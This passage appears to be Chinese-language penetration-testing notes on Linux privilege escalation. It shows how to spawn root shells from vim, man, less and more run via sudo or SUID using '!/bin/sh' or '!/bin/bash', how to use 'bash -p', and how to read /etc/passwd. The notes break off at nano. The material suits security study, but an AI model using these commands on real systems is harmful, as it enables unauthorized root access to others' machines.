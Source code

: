 Vim

vim的主要用途是做编辑器,是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

读取文件

vim /etc/passwd

通过vim进入shell

#vim命令

sudo vim /etc/passwd

:!/bin/sh

man sudo提权

sudo man man

!/bin/bash （vim/vi/man都基本上进去就!/bin/bash皆可提权）

Bash

以下命令将以root身份打开一个bash shell。

bash -p

bash-3.2# id

uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

![504d40196471ef5cbbac7c23fa813773.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image69.jpeg){width="4.444444444444445in"
height="0.8534995625546806in"}

less

less命令也可以进入shell

sudo less /etc/passwd

#在less中输入:

!/bin/sh

more

more命令进入shell和less相同

sudo more /etc/passwd

#在more中输入:

!/bin/sh

要注意的是使用more和less一定读取一个比较大的文件,如果文件太小无法进入翻页功能也就无法使用!命令进入shell

nano

nano也算是比较上古的文本编辑器了

nano进入shell的方法为

nano #进入nano编辑器
